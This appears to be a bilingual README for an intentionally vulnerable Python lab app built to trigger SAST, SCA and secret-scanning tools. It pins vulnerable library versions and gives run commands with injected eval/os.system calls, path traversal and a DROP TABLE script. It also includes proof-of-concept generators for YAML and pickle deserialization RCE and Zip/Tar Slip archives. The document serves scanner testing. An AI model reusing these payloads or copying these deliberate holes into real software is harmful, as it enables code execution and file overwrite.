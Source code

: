 # README — py-insecure-app (FR/EN)

> **⚠️ Usage labo uniquement.** Projet intentionnellement vulnérable pour exercices SAST/SCA/Secret-Scanning. Ne pas déployer ni exécuter en production.

---

## FR — Présentation rapide

Application Python minimaliste regroupant **failles de code** (CWE) et **dépendances vulnérables** pour déclencher des alertes dans Semgrep, Snyk Code/Open Source, Checkmarx, SonarQube, JFrog Xray, etc.

**Points clés**

* SAST : SQLi (CWE‑89), RCE via `eval`/`os.system` (CWE‑78/94), désérialisation non sûre (CWE‑502), TLS désactivé (CWE‑295), Zip/Tar Slip, secrets codés en dur (CWE‑798), permissions laxistes (CWE‑732), PRNG faible (CWE‑338), MD5 (CWE‑327), *path traversal* (CWE‑22), `assert` pour l’auth (CWE‑617), import dynamique non contrôlé.
* SCA : versions vulnérables **PyYAML 5.3**, **requests 2.19.1**, **urllib3 1.24.1** dans `requirements.txt`.

### Prérequis

* Python 3.10+
* Accès internet (facultatif) pour démontrer `verify=False`

### Installation

```bash
cd py-insecure-app
python -m venv .venv && . .venv/bin/activate
pip install -r requirements.txt
```

### Exécution rapide

```bash
python app.py --initdb
python app.py --login admin admin
python app.py --cmd "whoami"
python app.py --hash password
python app.py --url https://expired.badssl.com
python app.py --read ../../etc/hosts
python app.py --tmp
python app.py --eval "__import__('os').system('echo PWNED')"
python app.py --untar samples/evil.tar
python app.py --unzip samples/evil.zip
python app.py --yaml samples/evil.yaml
python app.py --pickle samples/evil.pkl
python app.py --ssl https://example.com
python app.py --assert alice admin
python app.py --dimport os
python app.py --sqlscript "DROP TABLE IF EXISTS users; CREATE TABLE pwn(x);"
python app.py --xml samples/sample.xml
```

### Générer les fichiers PoC (calibrage des cas)

Créez le dossier `samples/` et copiez/collez :

**`samples/evil.yaml`** (PyYAML <5.4 — exécution à l’import)

```yaml
!!python/object/apply:os.system ["echo YAML_RCE"]
```

**`samples/make_evil_pickle.py`** — génère `evil.pkl` (désérialisation)

```python
import pickle, os
class E:
  def __reduce__(self):
    return (os.system, ("echo PICKLE_RCE",))
open('samples/evil.pkl','wb').write(pickle.dumps(E()))
```

**`samples/make_zip_tar.py`** — crée Zip/Tar Slip

```python
import zipfile, tarfile, os
os.makedirs('samples', exist_ok=True)
with zipfile.ZipFile('samples/evil.zip','w') as z:
  z.writestr('../../../../tmp/ZIP_SLIP.txt','owned')
with tarfile.open('samples/evil.tar','w') as t:
  import io
  data = io.BytesIO(b'owned')
  info = tarfile.TarInfo(name='../../../../tmp/TAR_SLIP.txt'); info.size=len(b'owned')
  t.addfile(info, data)
open('samples/sample.xml','w').write('<root><x>1</x></root>')
```

> **Astuce SAST** : laissez `HARDCODED_SECRET`, `API_TOKEN` et `DEFAULT_KEY` dans le code pour déclencher les détecteurs de secrets. Ne remplacez pas `verify=False` ni `tempfile.mktemp`.

### Scan SAST/SCA — commandes conseillées

```bash
# Semgrep (rapide)
semgrep --config p/ci --error py-insecure-app

# Snyk Code + Open Source (SAST+SCA)
snyk code test py-insecure-app
snyk test --file=py-insecure-app/requirements.txt

# JFrog Xray (SCA)
cd py-insecure-app && jf audit --pip --requirements-file=requirements.txt
```

---

## EN — Quick overview

Deliberately vulnerable Python app to light up SAST/SCA/Secrets findings.

**Highlights**

* SAST: SQLi, command/RCE via `eval` & `os.system`, unsafe deserialization, TLS disabled, Zip/Tar Slip, hardcoded secrets, lax perms, weak PRNG, MD5, path traversal, `assert` for auth, uncontrolled dynamic import.
* SCA: vulnerable `PyYAML 5.3`, `requests 2.19.1`, `urllib3 1.24.1`.

**Install / Run / PoCs** → see FR section above (same commands).

**CI note (TeamCity)**: run steps as simple command-line runners; prefer PowerShell on Windows agents.

